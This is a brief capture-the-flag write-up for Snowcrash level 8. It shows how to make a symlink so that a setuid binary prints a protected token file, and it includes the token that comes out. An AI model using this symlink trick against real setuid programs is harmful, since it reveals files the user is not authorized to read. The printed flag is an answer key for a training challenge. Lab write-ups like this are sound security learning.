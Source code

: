 # Snowcrash08

This time we have a binary and a token which we may not access  
Binary has suid so it can run it but code won't allow it cuz of name ; make simlink  

```sh
level08:~$ ln -s -f /home/user/level08/token /tmp/tok
level08:~$ ./level08 /tmp/tok
quif5eloekouj29ke0vouxean
```
Quite ez if i may
